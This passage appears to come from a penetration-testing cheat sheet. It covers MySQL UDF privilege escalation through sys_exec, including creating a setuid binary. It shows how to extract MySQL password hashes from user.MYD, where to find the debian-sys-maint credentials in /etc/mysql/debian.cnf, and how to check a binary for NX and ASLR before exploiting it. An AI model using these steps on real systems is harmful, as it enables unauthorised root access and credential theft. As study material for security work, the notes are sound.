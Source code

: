	Test function:
	select sys_exec('id >/tmp/out; chown user:user /tmp/out');
	quit
	cat /tmp/out
	
	Use function to run a setuid program:
	select sys_exec('chmod + s /tmp/setuid');
	/tmp/setuid
	
Get user hashes from MySQL

	strings /var/lib/mysql/mysql/user.MYD
	
	
Debian MySQL
	
	debian-sys-maint has access to the database and can be used to dump information from the database
	Password is located in /etc/mysql/debian.cnf
	
		
## Binary Exploitation

	strings FILENAME

	strace FILENAME

	ltrace FILENAME

	look for seg faults 

Determine if NX is on

	wmic OS Get DataExecutionPrevention_Available
	
	coreinfo.exe | find "NX" (coreinfo.exe from Sysinternals Suite)
	
	grep ^flags /proc/cpuinfo | head -n1 | egrep --color=auto ' (pae|nx) '
	
Check for ASLR

	cat /proc/sys/kernel/randomize_va_space
	
	With binary (run multiple times and see if address changes)
	
	ldd overflow | grep libc
